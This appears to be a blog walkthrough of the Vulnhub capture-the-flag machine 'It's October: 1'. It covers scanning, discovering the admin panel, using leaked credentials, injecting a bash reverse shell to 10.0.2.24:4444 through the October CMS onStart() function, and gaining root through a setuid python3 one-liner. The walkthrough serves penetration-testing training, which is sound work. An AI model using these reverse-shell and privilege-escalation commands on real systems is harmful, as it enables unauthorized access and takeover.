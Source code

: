 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **It's October: 1**

The virtual machine is released on April 8, 2020 at Vulnhub.  The goal is to get the root flag of the target.  However, it encourages you to use the functionalities rather than vulnerabilities of the target.  It is designed to test your penetration testing skills and concepts.

Available on : [Vulnhub](https://www.vulnhub.com/entry/its-october-1,460/)  
Difficulty : Easy/Medium Level  
Format : OVA (Virtualbox)

Kali Linux 2020.1b is used for the testing.

The VM shows the IP address of the box when you boot it up.  However, you can confirm the IP address on your own.

```bash
sudo netdiscover -r 10.0.2.0/24
```

![](https://raw.githubusercontent.com/samiux/images/master/october/001.png)  

The target's IP address is ```10.0.2.31```.

```bash
sudo nmap -Pn -p- -sS -sV -A 10.0.2.31
```

![](https://raw.githubusercontent.com/samiux/images/master/october/002.png)

The screenshot of ```http://10.0.2.31``` is :

![](https://raw.githubusercontent.com/samiux/images/master/october/003.png)

The screenshot of ```http://10.0.2.31:8080``` is :

![](https://raw.githubusercontent.com/samiux/images/master/october/004.png)

Inspect the source code of port 8080 and find ```mynote.txt``` on the page.  Let's access the ```mynote.txt```.  It shows the username and password.  However, we do not know the admin page yet.  It is suspected to be on port 80 instead of 8080.

![](https://raw.githubusercontent.com/samiux/images/master/october/005.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/006.png)

We need to find out the admin page of the port 80 by gobuster.  We need to set the threads to 5 or errors may be shown.

```bash
sudo gobuster dir -u http://10.0.2.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t5
```

When access ```backend``` directory, the admin panel page is shown.

![](https://raw.githubusercontent.com/samiux/images/master/october/007.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/008.png)

Log in with username ```admin``` and password ```adminadmin2```.

![](https://raw.githubusercontent.com/samiux/images/master/october/009.png)

The version is ```build 465``` and it is the current version as at the time of this writing.  The is no known vulnerability found so far.

After reading the documentation of the ```October CMS```, it is suspected that it is desgined to run ```JavaScript``` by default.  Let's confirm it!

```html
<html>
<body>
	<script>alert("xss");</script>
</body>
</html>
```

![](https://raw.githubusercontent.com/samiux/images/master/october/012.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/010.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/011.png)

It is confirmed that it can run ```JavasScript``` by default.  Let's use ```onStart()``` function to execute the bash shell.

```javascript
function onstart() {
	exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.24/4444 0>&1'");
}
```

![](https://raw.githubusercontent.com/samiux/images/master/october/013.png)

The netcat listener at port 4444 on Kali Linux.

```bash
nc -lvp 4444
```

![](https://raw.githubusercontent.com/samiux/images/master/october/014.png)

After saved the page and ```review``` it.  The shell is ported accordingly.

![](https://raw.githubusercontent.com/samiux/images/master/october/015.png)

The current user is ```www-data```.  We need to find a way for privilege escalation.

```bash
find / -perm -u=s -type f 2>/dev/null
```

The output shows that ```python3.7``` is in stricty bit.  We try to privilege escalate it.

```bash
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

As a result, we get ```euid=0(root)``` after running the above command.

We then go to the /root and display the ```proof.txt```.  Bingo!  Root is dancing!

![](https://raw.githubusercontent.com/samiux/images/master/october/016.png)

### Final thought

This is a typical Capture The Flag (CTF) game, however, it does not use the vulnerability to exploit it.  It is very a interesting box indeed!

Samiux  
OSCE  OSCP  OSWP  
April 19, 2020, Hong Kong, China  


|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
